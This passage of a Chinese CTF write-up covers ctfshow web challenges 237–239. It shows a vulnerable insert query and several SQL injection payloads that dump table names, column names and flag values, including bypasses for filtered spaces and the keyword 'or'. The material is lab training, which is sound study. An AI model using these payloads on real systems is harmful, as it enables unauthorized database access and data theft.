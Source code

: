 在网络接口看到`insert.php`

![237](https://the0n3.top/medias/show-sql/237.png)

在insert.php页面源码里可以看到接口

![2371](https://the0n3.top/medias/show-sql/2371.png)

首页的sql语句

```sql
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```

☝🤓唉，有钱了买两杯豆浆，喝一杯倒一杯。两个参数，想怎么玩怎么玩，类似刚才的`update`。同样注意单引号的闭合，`value()`的闭合，否则语法错误。也可以用`反斜杠转义`


```sql
# 爆表 flag
username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=1
# 爆字段 flagass23s3
username=1',(select group_concat(column_name) from information_schema.columns where table_schema=database()))#&password=1
# 爆flag
username=1',(select group_concat(flagass23s3) from flag ))#&password=1
```

## web 238 

过滤了空格，通过测试，`%09`,`%0a`,`%0b`,`%0c`,`%0d`这些都不能用，可能只有get传参能用？绕过效果都不太好`/**/`注释也不能用。反引号括号还挺好用

```sql
# 爆表 banlist,ctfshow_user,flagb
username=111',(select(group_concat(table_name))from(information_schema.tables)where`table_schema`=database()))#&password=2
# 爆字段 id,char,id,username,pass,id,flag,info
username=111',(select(group_concat(column_name))from(information_schema.columns)where`table_schema`=database()))#&password=2
# 爆flag
username=111',(select(group_concat(flag))from`flagb`))#&password=2
```
![238](https://the0n3.top/medias/show-sql/238.png)

## web 239

过滤了`or`，熟悉。`information`库不能用了，使用`innodb_table_stats`

```sql
# 爆表 banlist,ctfshow_user,flagbb
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where`database_name`=database()))#&password=1
# 爆字段（子查询套娃套不出来了）撞狗运(字段flag)
username=1',(select(group_concat(flag))from(flagbb)))#&password=1
```
